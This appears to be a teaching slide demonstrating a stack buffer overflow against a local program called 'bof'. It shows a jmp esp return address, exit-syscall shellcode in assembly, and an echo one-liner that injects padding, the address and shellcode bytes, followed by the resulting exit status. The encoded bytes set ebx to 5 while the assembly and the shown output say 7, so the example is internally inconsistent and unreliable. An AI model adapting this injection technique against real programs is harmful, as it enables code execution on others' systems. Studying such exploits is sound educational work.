

# Example Buffer Overflow
/usr/local/bin/bof
jmp esp @ 0x08048476
Shellcode exits with status “7”
mov	eax, 1
mov	ebx, 7
int 0x80
echo -en "AAAAAAAAAAAAAAAABBBB\x76\x84\x04\x08\xB8\x01\x00\x00\x00\xBB\x05\x00\x00\x00\xCD\x80" | bof
echo $?
7